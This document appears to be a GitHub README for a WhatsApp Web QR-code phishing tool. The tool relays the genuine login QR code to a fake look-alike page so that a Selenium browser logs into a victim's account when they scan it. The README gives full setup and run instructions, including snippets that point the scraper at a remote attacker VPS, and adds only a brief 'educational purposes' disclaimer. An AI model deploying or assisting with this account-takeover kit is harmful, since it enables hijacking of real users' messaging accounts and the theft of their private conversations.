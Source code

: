 **WhatsApp Web Phishing Tool**

A fun and educational project that demonstrates how a phishing attack could work by leveraging WhatsApp Web's QR code authentication. This tool works by:
- Extracting the QR code from the official WhatsApp Web login page.
- Injecting the QR code into a fake phishing site designed to look like the official WhatsApp Web page.
- Running an automated Selenium browser to simulate a login attempt on WhatsApp Web when a victim scans the fake QR code.

If a user scans the injected QR code and logs in, the automated Selenium browser successfully logs into the victim's account.


**Description of Folder Structure**

- local/: This folder contains everything needed to run the tool locally. The Flask server and the scraper will both run on the same machine.

- remote/: This folder is for running the Flask server on a remote server while keeping the scraper running locally. You will need to adjust the IP address and port in both static/script.js and scraper.py to match your server's configuration.

**Setup Instructions
Prerequisites**

Before running the tool, ensure that you have the following installed:

Firefox: You must delete the snap version of Firefox and install the standard version from Mozilla's repository.

https://www.debugpoint.com/remove-firefox-snap-ubuntu/

https://fosspost.org/how-to-install-firefox-as-a-deb-package-on-ubuntu    
    

GeckoDriver: You will need the GeckoDriver for Selenium to interact with Firefox. Download it from the official repository.

https://github.com/mozilla/geckodriver/releases

Then, move it to the appropriate directory:

    tar -xvzf geckodriver-v0.32.0-linux64.tar.gz
    sudo mv geckodriver /usr/local/bin/
    sudo chmod +x /usr/local/bin/geckodriver

Python Environment: Set up a Python virtual environment and install dependencies:

    python3 -m venv venv
    source venv/bin/activate
    pip3 install -r requirements.txt

**Setup Options
Local Setup:**

    Navigate to the local/ folder.
    Run the Flask server by executing the following command:

    python3 app.py

    The Flask server and scraper will both run on your local machine.

**Remote Setup:**

    First, run the Flask server on the remote machine.
    python3 app.py
    
    In the remote/ folder, adjust the IP address and port in the following files to match the remote server's configuration:
        static/script.js:

    socket.on('new-qr-code', (data) => {
      let url = 'http://127.0.0.1:5000/static/qr_code.png?t=' + Date.now();
      let imageElement = document.getElementById('qr-code');
      imageElement.setAttribute("src", url);
    });

adjust on your local machine scraper.py:

    def notify_server_qr_code():
        url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/qr_code_updated"
        response = requests.post(url)

    def notify_server_user_logged_in():
      url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/user_logged_in"
      
    def send_qr_code_to_server():
      url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/upload"

After adjusting the IP address, run the scraper on your local machine:

    python3 scraper.py

**Notes:**
- Local Setup: No need to modify IPs or ports if everything is running on the same machine.
- Remote Setup: Modify the 127.0.0.1:5000 IP addresses in both script.js and scraper.py to match the remote server's address.
- Selenium Browser: Ensure that the Selenium browser is running continuously during scraping. If it crashes, you will need to restart the process to resume operations. Sorry for the inconvenience! :(

Running the Tool
- For Local Setup: After setting up everything, simply run the Flask app by using python3 app.py and the tool will be fully operational on your local machine.

- For Remote Setup: Make sure the server is running first, adjust IP addresses in both script.js and scraper.py, and then start the scraper.

  **Warning: This tool is intended for educational purposes only. Do not use it for malicious activities.**
  
![alt text](https://github.com/levo-777/whats_app_qr_code_phisher/blob/main/WhatsAppQRPhisher.png)

